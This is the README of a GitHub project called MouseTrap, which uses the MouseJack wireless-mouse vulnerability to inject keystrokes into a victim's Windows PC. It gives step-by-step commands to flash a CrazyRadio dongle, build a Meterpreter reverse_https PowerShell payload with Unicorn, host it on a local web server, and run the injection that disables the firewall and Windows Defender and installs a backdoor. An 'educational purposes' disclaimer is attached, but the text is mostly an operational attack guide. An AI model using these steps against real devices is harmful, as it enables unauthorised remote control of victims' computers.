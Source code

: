 # MouseTrap
This is an implementation of Bastille's exploit [MouseJack](https://github.com/BastilleResearch/mousejack) using [JackIt's](https://github.com/insecurityofthings/jackit) exploit code. Full credit goes to them for discovering this issue and writing the libraries to work with the CrazyRadio PA dongle, as well as the implementation that I have created a Ducky Script for. For more information about the vulnerability, as well as vulnerable devices, check out their Github repositories! I do not promote the use of this software maliciously. This is solely for educational purposes!
## What is MouseTrap?
MouseTrap is a Ducky Script I have written for MouseJack that allows a user to disable firewalls and Windows Defender real-time protection, and install a backdoor remotely through a victim's wireless mouse. In roughly 10 seconds, you can have a meterpreter session running without firewall interruption.
## Installation
Tested on a clean Kali Linux VM with a Crazy Radio PA
### MouseJack
Flashes CrazyRadio PA dongle with firmware and sets up dependencies
```
sudo git clone https://github.com/BastilleResearch/mousejack.git
sudo apt-get install sdcc binutils python python-pip
sudo pip install -U pip
sudo pip install -U -I pyusb
sudo pip install -U platformio
cd mousejack
git submodule init
git submodule update
cd nrf-research-firmware
make
sudo make install

```
### JackIt
Used to scan for vulnerable devices and inject payload
```
sudo git clone https://github.com/insecurityofthings/jackit.git
cd jackit
pip install -e .
```
### Unicorn
Develops Powershell payload and sets up Metasploit Meterpreter session
```
sudo git clone https://github.com/trustedsec/unicorn.git
cd unicorn
python unicorn.py windows/meterpreter/reverse_https <LHOST IP> <LPORT>
mv powershell_attack.txt /var/www/html/
service apache2 start
msfconsole -r unicorn.rc
```
## Execution
In order to optimize the speed of the payload, I created a web server on my local machine that the script downloads the Powershell payload from and executes. It is not necessary; however, recommended. In order for the script to install the payload, edit the `<LHOST>` in my `nofirewallallhack` file with your machine's IP address. When I tested the attack, both my machine and the victim's were on the same local network. Once the webserver is up and running with the Powershell payload, execute the command:
```
sudo jackit --script nofirewallallhack
```
Once the program has begun, it will scan for nearby devices. When you have identified your victim's device, hit Ctrl+C and select the device. The program will begin to inject the script, which will take roughly 10 seconds. Once the script has completed, a Meterpreter session should begin in Metasploit.
